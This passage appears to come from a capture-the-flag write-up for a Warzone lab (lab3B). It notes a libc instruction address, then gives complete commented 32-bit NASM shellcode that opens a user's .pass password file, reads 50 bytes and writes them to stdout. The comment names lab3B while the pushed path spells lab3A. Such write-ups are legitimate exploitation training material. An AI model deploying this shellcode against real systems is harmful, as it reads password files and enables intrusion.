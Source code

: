 Awesome! We have the right instruction at `0xb7f0b1cd`, where the *.text* section of **libc** is loaded. Now, we can write our shellcode.

## Shellcoding

Here, one of the solution would be to write a shellcode that read the file containing the password and display it on the screen. Here is what I've done, with some comments :)

```nasm
global _start
_start:

; int open(const char *pathname, int flags);
; EBX = *pathname
; ECX = flags
 xor ecx, ecx ; flags = read only
 push ecx ; null byte to end the path string
 ; push "/home/lab3B/.pass" in reverse order
 push "pass"
 push "3A/."
 push "/lab"
 push "home"
 push "////"
 mov ebx, esp ; move the string pointer in EBX
 xor eax, eax
 mov al, 5 ; sys_open()
 int 0x80
 mov edi, eax ; save the file handler

; We read the file
; read(int fd, void *buf, size_t count);
; EBX = fd
; ECX = *buf
; EDX = count
xor edx, edx
mov dl, 0x32 ; read 50 Bytes to the stack (just a guess)
mov ecx, esp
mov ebx, edi ; move fd in ebx
mov al, 3 ; sys_read()
int 0x80

; We write the data in stdout
; write(int fd, const void *buf, size_t count);
; EBX = fd
; ECX = *buf
; EDX = count
mov bl, 1 ; stdout
mov al, 4 ; sys_write()
int 0x80
```

**Note** The *Warzone* VM doesn't have **NASM** installed, so I did the development on another Linux 32bit VM.
{: .notice--info}
